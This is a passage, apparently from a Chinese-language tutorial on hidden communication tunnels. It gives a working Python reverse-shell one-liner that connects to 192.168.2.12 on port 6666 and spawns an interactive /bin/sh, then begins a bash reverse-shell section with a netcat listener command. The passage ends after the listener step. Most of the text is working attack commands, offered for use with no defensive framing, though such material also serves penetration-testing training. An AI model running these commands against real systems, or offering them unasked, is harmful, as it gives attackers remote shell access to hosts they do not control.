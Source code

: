 在客户端执行以下python脚本，反弹shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.12",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/assets/img/隐藏通信隧道基础知识/42.png)

（11）bash反弹shell

服务端监听本地6666端口：

```
nc -lvp 6666
```

![](/assets/img/隐藏通信隧道基础知识/43.png)
